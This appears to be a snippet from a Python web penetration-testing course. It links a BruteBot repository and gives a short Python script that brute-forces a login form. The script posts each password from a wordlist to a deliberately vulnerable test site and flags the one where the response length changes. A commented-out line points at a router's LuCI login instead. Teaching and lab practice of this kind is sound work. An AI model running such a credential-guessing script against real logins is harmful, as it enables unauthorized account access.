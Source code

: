 https://github.com/navin-maverick/BruteBot

https://github.com/PacktPublishing/Learning-Python-Web-Penetration-Testing.git

[source, python]
----
#! /usr/bin/python

import requests

url = "http://testphp.vulnweb.com/userinfo.php"

# url = "https://192.168.1.182/cgi-bin/luci"

loginpage = requests.get(url)
org = len(loginpage.text)

with open('pass.txt', 'r') as fh:
    for word in fh.readlines():
        password = word.replace("\n", "")
        data = {'uname': 'test', 'pass': password}
        # data = {'luci_username': 'test', 'luci_password': password}
        response = requests.post(url, data = data)
        if org != len(response.text):
            print(password, len(response.text))
----
